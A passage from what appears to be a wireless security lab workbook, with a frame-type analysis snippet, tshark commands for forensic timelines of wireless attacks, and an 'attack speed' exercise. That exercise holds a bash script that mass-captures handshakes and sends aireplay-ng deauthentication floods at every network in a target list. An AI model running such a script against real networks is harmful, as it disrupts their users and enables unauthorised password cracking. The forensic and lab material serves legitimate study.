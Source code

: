 ```bash
for packet in packets:
    if packet.haslayer(Dot11):
        frame_type = packet[Dot11].type
        frame_types[frame_type] = frame_types.get(frame_type, 0) + 1

# Create visualization
plt.figure(figsize=(10, 6))
plt.bar(frame_types.keys(), frame_types.values())
plt.title("802.11 Frame Type Distribution")
plt.xlabel("Frame Type")
plt.ylabel("Count")
plt.savefig("frame_analysis.png")
plt.show()
EOF
```

### **Exercise 6.2: Forensic Analysis**

**Objective**: Conduct forensic analysis of wireless attack evidence.

**Timeline Reconstruction**:
```bash
# Extract timestamps and events
tshark -r capture.cap -T fields -e frame.time -e wlan.sa -e wlan.da -e wlan.fc.type_subtype -e wlan_mgt.ssid > timeline.csv

# Analyze authentication sequences
tshark -r capture.cap -Y "wlan.fc.subtype == 0x0B" -T fields -e frame.time -e wlan.sa -e wlan.da -e wlan.fixed.status_code

# Identify attack patterns
tshark -r capture.cap -Y "wlan.fc.subtype == 0x0C" -T fields -e frame.time -e wlan.sa -e wlan.da -e wlan.fixed.reason_code
```

---

## 📈 Phase 7: Performance and Optimization

### **Exercise 7.1: Attack Speed Optimization**

**Objective**: Optimize attack speed and efficiency.

**Parallel Processing**:
```bash
# Parallel handshake capture
#!/bin/bash
for target in $(cat targets.txt); do
    {
        BSSID=$(echo $target | cut -d',' -f1)
        CHANNEL=$(echo $target | cut -d',' -f2)
        
        # Capture handshake in background
        timeout 300 airodump-ng -c $CHANNEL --bssid $BSSID -w "handshake_$BSSID" wlan0mon &
        
        # Deauth attack
        sleep 30
        aireplay-ng -0 10 -a $BSSID wlan0mon
    } &
done
wait
```
